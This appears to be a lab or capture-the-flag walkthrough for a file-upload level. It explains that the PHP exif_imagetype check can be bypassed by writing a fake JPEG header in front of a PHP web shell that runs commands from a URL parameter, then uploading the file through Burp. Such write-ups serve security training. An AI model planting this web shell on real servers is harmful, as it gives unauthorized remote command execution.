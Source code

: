 ![image](https://github.com/user-attachments/assets/519ceded-9a5a-4d55-99f5-4157f643f83a)

exif_imagetype($_FILES['uploadedfile']['tmp_name'])
this line in the php script above will check if the given file has valid header.
It checks whether the uploaded file is a valid image, based on its magic bytes (i.e., the file signature), not just its extension.
So now, just changing the file extension to .php won’t work.


We can put fake jpeg headed onto php script to bypass this filter.

# Create fake JPEG header (FF D8 FF E0)
echo -ne '\xFF\xD8\xFF\xE0' > shell.php

# Append your PHP payload
echo "<?php echo shell_exec(\$_GET['cmd']); ?>" >> shell.php

Upload the shell.php and also change the line in the request like how we did in the previous level using burp.
![image](https://github.com/user-attachments/assets/fe4b101e-d96d-456c-9cbd-b993e853270d)


![image](https://github.com/user-attachments/assets/7f1d578b-4148-4948-8792-5b7824b823f0)

Thats it.
